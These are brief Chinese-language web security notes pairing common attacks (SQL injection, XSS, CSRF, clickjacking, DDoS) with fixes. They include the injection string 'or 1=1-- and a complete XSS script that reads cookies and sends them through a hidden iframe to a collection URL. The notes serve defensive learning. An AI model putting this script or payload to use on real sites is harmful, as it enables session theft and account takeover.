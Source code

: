 
### web site security

1. sql inject
```
攻击实例： 'or 1=1--
改正方法： sql使用参数化, 不拼sql
```

2. xss cross site scripting

```
攻击实例： 攻击者通常会在有漏洞的程序中插入JavaScript、VBScript、ActiveX或Flash以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取/污染cookie和植入恶意广告等。用 

<script type="text/javascript"> 
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    console.log("cookes: " + cookies);
    var xssURIBase = "http://localhost:9000/v2/xss?cookie=";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
</script>

改正方法：escape input
```
3. csrf Cross-site request forgery

```
攻击实例：  http:xxx.com/posts?title=1212&content=345345
1. 正确使用http method, get , post, put, delete, options, head, patch, trace, connect

攻击实例： http post  register
改正方法： 1. 验证码 2. csrf token 3. 关键业务重复数据密码

ajax: 跨域开放时，给出有限访问的白名单
改正方法： 给出有限访问的白名单


```
4. x-frame cfs

```
Using X-Frame-Options
DENY
The page cannot be displayed in a frame, regardless of the site attempting to do
so.
SAMEORIGIN
The page can only be displayed in a frame on the same origin as the page itself.
ALLOW-FROM uri
The page can only be displayed in a frame on the specified origin.

Nginx config 
add_header X-Frame-Options SAMEORIGIN;
```

7. Ddos
```
加访问次数限制
```

### 加强安全
1. cookie
```
加密
```

2. 使用https

3. 密码

```
密码加密
```

4. 重复提交

```
1. 重复提交form 表单  使用token
```

5. mini and fix javascript
```
有点卵用,防小白
```



